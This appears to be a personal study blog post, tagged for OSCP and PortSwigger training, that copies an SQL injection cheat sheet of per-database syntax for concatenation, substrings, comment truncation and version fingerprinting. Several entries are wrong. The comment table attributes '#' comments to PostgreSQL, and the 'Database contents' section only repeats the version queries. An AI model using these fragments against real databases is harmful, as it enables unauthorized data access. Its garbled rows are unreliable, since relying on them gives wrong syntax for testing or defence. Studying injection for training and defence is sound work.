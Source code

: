 Title: SQL Injection Cheat Sheet
Date: 2024-05-19 21:03
Category: web
Slug: sqli-cheat-sheet


# SQL injection cheat sheet
#OSCP/WEB/PORTSWIGGER/LearningPath/ServerSide/SQLINJECTION

![Photo]({attach}SQLI_CHEAT_SHEET/black-green-cheat-sheet-stamp-black-green-cheat-sheet-stamp-illustration-graphic-concept-108947651.jpg.webp)

This **SQL injection** cheat sheet contains examples of useful syntax that you can use to perform a variety of tasks that often arise when performing SQL injection attacks.

## String concatenation

You can concatenate together multiple strings to make a single string.

| Oracle         | =='foo'\|\|'bar'==                                           |
|:--------------:|:------------------------------------------------------------:|
| **Microsoft**  | =='foo'+'bar'==                                              |
| **PostgreSQL** | =='foo'\|\|'bar'==                                           |
| **MySQL**      | =='foo' 'bar'== [Note the space between the two strings]<br>==CONCAT('foo','bar')== |
## Substring

You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ==ba==.

| Oracle         | ==SUBSTR('foobar', 4, 2)==    |
|:--------------:|:-----------------------------:|
| **Microsoft**  | ==SUBSTRING('foobar', 4, 2)== |
| **PostgreSQL** | ==SUBSTRING('foobar', 4, 2)== |
| **MySQL**      | ==SUBSTRING('foobar', 4, 2)== |

## Comments

You can use comments to truncate a query and remove the portion of the original query that follows your input.

| Oracle         | ==--comment==                                          |
|:--------------:|:------------------------------------------------------:|
| **Microsoft**  | ==/\*comment\*/==                                      |
| **PostgreSQL** | ==\#comment==                                          |
| **MySQL**      | ==-- comment==  [Note the space after the double dash] |

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Oracle         | ==SELECT banner FROM v$version==<br>==SELECT version FROM v$instance== |
|:--------------:|:------------------------------------------------------------:|
| **Microsoft**  | ==SELECT @@version==                                         |
| **PostgreSQL** | ==SELECT version()==                                         |
| **MySQL**      | ==SELECT @@version==                                         |

## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

| Oracle         | ==SELECT banner FROM v$version==<br>==SELECT version FROM v$instance== |
|:--------------:|:------------------------------------------------------------:|
| **Microsoft**  | ==SELECT @@version==                                         |
| **PostgreSQL** | ==SELECT version()==                                         |
| **MySQL**      | ==SELECT @@version==                                         |
